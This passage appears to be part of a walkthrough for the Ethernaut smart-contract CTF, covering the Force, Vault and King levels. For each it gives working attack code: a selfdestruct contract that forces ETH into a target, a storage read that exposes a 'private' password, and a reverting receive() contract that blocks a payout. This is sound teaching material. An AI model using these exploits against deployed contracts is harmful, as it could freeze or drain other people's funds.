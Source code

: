 ## 7. Force
Even if a contract doesn't implement a receive / fallback or any payable functions to handle incoming ETH, it is still possible to forcefully send ETH to a contract through the use of `selfdestruct`. If you're deploying this contract through remix, don't forget to specify value before deploying the AttackForce contract or the `selfdestruct` won't be able to send any ETH over as there are no ETH in the contract to be sent over!
```
pragma solidity ^0.8.0;

contract AttackForce {

    constructor(address payable _victim) payable {
        selfdestruct(_victim);
    }
}
```

## 8. Vault
Your private variables are private if you try to access it the normal way e.g. via another contract but the problem is that everything on the blockchain is visible so even if the variable's visibility is set to private, you can still access it based on its index in the smart contract. Learn more about this [here](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html).
```
const password = await web3.eth.getStorageAt(instance, 1);
await contract.unlock(password);
```

## 9. King
This is a classic example of DDoS with unexpected revert when the logic of the victim's contract involve sending funds to  in the victim's contract involves transferring ether to the previous "lead", which in this case is the king. A malicious user would create a smart contract with either:

- a `fallback` / `receive` function that does `revert()`
- or the absence of a `fallback` / `receive` function

Once the malicious user uses this smart contract to take over the "king" position, all funds in the victim's contract is effectively stuck in there because nobody can take over as the new "king" no matter how much ether they use because the fallback function in the victim's contract will always fail when it tries to do `king.transfer(msg.value);`
```
pragma solidity ^0.8.0;

contract AttackKing {

    constructor(address _victim) payable {
        _victim.call{value: 10000000000000000 wei}("");
    }

    receive() external payable {
        revert();
    }
}
```
